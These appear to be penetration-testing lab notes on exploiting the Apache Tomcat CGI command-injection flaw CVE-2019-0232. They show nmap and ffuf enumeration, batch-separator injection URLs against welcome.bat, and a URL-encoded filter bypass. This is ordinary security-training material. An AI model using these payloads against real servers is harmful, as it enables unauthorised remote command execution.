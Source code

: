 #### tomcat cgi scripts
In essence, a CGI Servlet is a program that runs on a web server, such as Apache2, to support the execution of external applications that conform to the CGI specification. It is a middleware between web servers and external information resources like databases.

CGI scripts are utilised in websites for several reasons, but there are also some pretty big disadvantages to using them:

## CVE 2019 
Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.
tomcat is vulnerable to RCE
`CVE-2019-0232` is a critical security issue that could result in remote code execution. This vulnerability affects Windows systems that have the `enableCmdLineArguments` feature enabled. An attacker can exploit this vulnerability by exploiting a command injection flaw resulting from a Tomcat CGI Servlet input validation error, thus allowing them to execute arbitrary commands on the affected system. Versions `9.0.0.M1` to `9.0.17`, `8.5.0` to `8.5.39`, and `7.0.0` to `7.0.93` of Tomcat are affected.
## Enumeration
```shell-session
nmap -p- -sC -Pn 10.129.204.227 --open 

<SNIP>
8080/tcp  open  http-proxy
http-title: Apache Tomcat/9.0.17
```
#### Finding a CGI script
The default directory for CGI scripts is `/cgi`,
```shell-session
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

`fuzz for windows batch scripts`:
```
$ ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```
we can exploit `CVE-2019-0232` by appending our own commands through the use of the batch command separator `&`. We now have a valid CGI script path discovered during the enumeration at `http://10.129.204.227:8080/cgi/welcome.bat`

```http
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

`check if path environment variable is set`
```http
http://10.129.204.227:8080/cgi/welcome.bat?&set
```

`send the full path, if the $path wasnt set`
```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```
Apache Tomcat introduced a patch that utilizes a regular expression to prevent the use of special characters. However, the filter can be bypassed by URL-encoding the payload.
```http
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```
